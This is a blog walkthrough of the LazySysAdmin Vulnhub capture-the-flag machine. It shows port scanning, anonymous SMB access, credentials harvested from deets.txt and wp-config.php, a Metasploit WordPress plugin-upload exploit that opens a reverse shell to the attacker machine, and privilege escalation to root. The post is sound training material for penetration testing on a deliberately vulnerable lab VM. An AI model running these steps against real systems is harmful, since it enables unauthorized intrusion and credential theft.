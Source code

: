 ```yaml
---
date: 2020-04-27 03:43:30
layout: post
title: "LazySysAdmin Vulnhub Walkthrough"
subtitle:
description: Today we will be doing LazySysAdmin from Vulnhub. An easy boot2root machine configured by a lazy system administrator.
image: /assets/img/uploads/lazySysAdmin/lazy.jpg
optimized_image: /assets/img/uploads/lazySysAdmin/lazy.jpg
category: walkthrough
tags: vulnhub boot2root
author: madhavmehndiratta
paginate: false
keywords: lazysysadmin walkthrough, vulnhub, lazysysadmin writeup, lazysysadmin vulnhub walkthrough, infosec articles
---
```


Today we will be doing LazySysAdmin from Vulnhub. An easy boot2root machine created by 'Togie Mcdogie'. The machine truly stands up to its name. This machine was configured by a lazy system administrator and thus, one clear thing to be looking for is a misconfigured system. Let's dive in!

We begin our reconnaissance by running a port scan with Nmap, checking default scripts.

```r
m1m3@kali:~$ nmap -sV -sV -oA nmap/lazySysAdmin 192.168.1.9 

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 192.168.1.9
Host is up (0.0044s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL (unauthorized)
6667/tcp open  irc         InspIRCd
Service Info: Hosts: LAZYSYSADMIN, Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.93 seconds
```

We see a mysql port open and Samba smd running on port 139 and 445. We also have a web server running at port 80.

<center><br>
<img src="/assets/img/uploads/lazySysAdmin/port80.png">
</center>

Let's try gaining access to the samba and see if we can login anonymously. We will use <i>smbclient</i> for this. If it asks for any password, just leave it empty and press enter.

```r
m1m3@kali:~$ smbclient -L 192.168.1.9

Enter WORKGROUP\m1m3's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        share$          Disk      Sumshare
        IPC$            IPC       IPC Service (Web server)
SMB1 disabled -- no workgroup available
```

We can access the share$ folder using: 

```r
m1m3@kali:~$ smbclient  '\\192.168.1.9\share$'

Enter WORKGROUP\m1m3's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Aug 15 16:35:52 2017
  ..                                  D        0  Mon Aug 14 18:04:47 2017
  wordpress                           D        0  Thu Apr 30 00:15:04 2020
  Backnode_files                      D        0  Mon Aug 14 17:38:26 2017
  wp                                  D        0  Tue Aug 15 16:21:23 2017
  deets.txt                           N      139  Mon Aug 14 17:50:05 2017
  robots.txt                          N       92  Mon Aug 14 18:06:14 2017
  todolist.txt                        N       79  Mon Aug 14 18:09:56 2017
  apache                              D        0  Mon Aug 14 18:05:19 2017
  index.html                          N    36072  Sun Aug  6 10:32:15 2017
  info.php                            N       20  Tue Aug 15 16:25:19 2017
  test                                D        0  Mon Aug 14 18:05:10 2017
  old                                 D        0  Mon Aug 14 18:05:13 2017

                3029776 blocks of size 1024. 1459952 blocks available          
smb: \> 
```

We see some interesting test files here, let's download them and see if they have anything useful.

```r
smb: \> get deets.txt
getting file \deets.txt of size 139 as deets.txt (0.7 KiloBytes/sec) (average 0.7 KiloBytes/sec)
smb: \> get todolist.txt
getting file \todolist.txt of size 79 as todolist.txt (12.9 KiloBytes/sec) (average 1.5 KiloBytes/sec)
smb: \> ^C

m1m3@kali:~$ cat deets.txt 
CBF Remembering all these passwords.

Remember to remove this file and update your password after we push out the server.

Password 12345

m1m3@kali:~$ cat todolist.txt 
Prevent users from being able to view to web root using the local file browser
m1m3@kali:~$ 
[1] 0:bash*                                                                                               
```

Awesome! <i>deets.txt</i> reveals a password 12345. Another thing now we can look at is the wordpress directory.

```r
smb: \> cd wordpress
smb: \wordpress\> ls
  .                                   D        0  Thu Apr 25 00:15:04 2020
  ..                                  D        0  Tue Aug 15 16:35:52 2017
  wp-config-sample.php                N     2853  Wed Dec 16 15:28:26 2015
  wp-trackback.php                    N     4513  Sat Oct 15 01:09:28 2016
  wp-admin                            D        0  Thu Aug  3 02:32:02 2017
  wp-settings.php                     N    16200  Thu Apr  6 23:31:42 2017
  wp-blog-header.php                  N      364  Sat Dec 19 16:50:28 2015
  index.php                           N      418  Wed Sep 25 05:48:11 2013
  wp-cron.php                         N     3286  Sun May 24 22:56:25 2015
  wp-links-opml.php                   N     2422  Mon Nov 21 08:16:30 2016
  readme.html                         N     7413  Mon Dec 12 13:31:39 2016
  wp-signup.php                       N    29924  Tue Jan 24 16:38:42 2017
  wp-content                          D        0  Thu Apr 30 00:31:17 2020
  license.txt                         N    19935  Mon Jan  2 23:28:42 2017
  wp-mail.php                         N     8048  Wed Jan 11 10:43:43 2017
  wp-activate.php                     N     5447  Wed Sep 28 03:06:28 2016
  .htaccess                           H       35  Tue Aug 15 17:10:13 2017
  xmlrpc.php                          N     3065  Wed Aug 31 22:01:29 2016
  wp-login.php                        N    34327  Fri May 12 22:42:46 2017
  wp-load.php                         N     3301  Tue Oct 25 08:45:30 2016
  wp-comments-post.php                N     1627  Mon Aug 29 17:30:32 2016
  wp-config.php                       N     3703  Mon Aug 21 14:55:14 2017
  wp-includes                         D        0  Thu Aug  3 02:32:03 2017

                3029776 blocks of size 1024. 1459952 blocks available          
smb: \wordpress\> 
```
 Looking into the wp-config, we get some username and password.

```r
 /** MySQL database username */
define('DB_USER', 'Admin');

/** MySQL database password */
define('DB_PASSWORD', 'TogieMYSQL12345^^');
```

We can use these to login into the wp-admin

<center><br>
<img src="/assets/img/uploads/lazySysAdmin/wordpress.png">
</center>

Now that we are successfully logged in, we can upload a payload packaged as a WordPress plugin. We can use metasploit here to exploit the server.

```r
msf5 > use exploit/unix/webapp/wp_admin_shell_upload 
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 192.168.1.9
RHOSTS => 192.168.1.9
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /wordpress
TARGETURI => /wordpress
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD TogieMYSQL12345^^
PASSWORD => TogieMYSQL12345^^
msf5 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 192.168.1.12:4444 
[*] Authenticating with WordPress using admin:TogieMYSQL12345^^...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wordpress/wp-content/plugins/nqVodSMHuP/rimGsZTjkk.php...
[*] Sending stage (38288 bytes) to 192.168.1.9
[*] Meterpreter session 1 opened (192.168.1.12:4444 -> 192.168.1.9:45938)
[+] Deleted rimGsZTjkk.php
[+] Deleted nqVodSMHuP.php
[+] Deleted ../nqVodSMHuP

meterpreter > shell
Process 1697 created.
Channel 0 created.
id       
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@LazySysAdmin:$
```

Looking into the /etc/passwd, we can see a user named  <i>togie</i>

```r
www-data@LazySysAdmin:$ cat /etc/passwd
cat /etc/passwd

togie:x:1000:1000:togie,,,:/home/togie:/bin/rbash

www-data@LazySysAdmin:$ 
```

This will be our way In!  We can now ssh into the user or simply use <i>su</i> to login with the password we got from <i>deets.txt.</i> 

```r
www-data@LazySysAdmin:$ su togie
su togie
Password: 12345
togie@LazySysAdmin:$ id
id
uid=1000(togie) gid=1000(togie) groups=1000(togie),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare)
togie@LazySysAdmin:$ 
```

We can see that the user is added in the <i>sudoers</i> group. Therefore we can directly run <i>sudo su </i> to get the root shell.

```r
togie@LazySysAdmin:$ sudo su
sudo su
[sudo] password for togie: 12345

root@LazySysAdmin:.# 
```

That's it! We rooted the box. Now we can read our flag.

```r
root@LazySysAdmin:.# cat /root/proof.txt/
cat /root/proof.txt
WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851


Well done :)

Hope you learn't a few things along the way.

Regards,

Togie Mcdogie




Enjoy some random strings

WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851
2d2v#X6x9%D6!DDf4xC1ds6YdOEjug3otDmc1$#slTET7
pf%&1nRpaj^68ZeV2St9GkdoDkj48Fl$MI97Zt2nebt02
bhO!5Je65B6Z0bhZhQ3W64wL65wonnQ$@yw%Zhy0U19pu

root@LazySysAdmin:.# 
```

That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/Jothon" rel=”nofollow”>Joshua Anderson.</a>